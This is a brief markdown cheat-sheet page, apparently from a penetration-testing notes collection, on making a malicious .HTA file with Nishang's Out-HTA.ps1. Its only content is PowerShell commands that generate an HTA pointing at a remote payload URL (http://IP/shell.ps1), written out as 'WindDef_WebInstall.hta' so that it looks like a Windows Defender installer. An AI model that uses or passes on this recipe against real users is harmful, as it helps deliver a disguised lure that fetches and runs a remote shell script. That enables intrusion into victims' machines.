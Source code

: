 ```yaml
---
description: .HTA exploit
---
```


# Nishang Out-HTA.ps1

**REQUIREMENT:**

* Needs a Windows system to generate payload.
* [samratashok/nishang/Out-HTA.ps1](https://github.com/samratashok/nishang/blob/master/Client/Out-HTA.ps1)

````powershell
PS> . .\Out-HTA.ps1
PS> Out-HTA -PayloadURL http://IP/shell.ps1
HTA written to \WindDef_WebInstall.hta
```
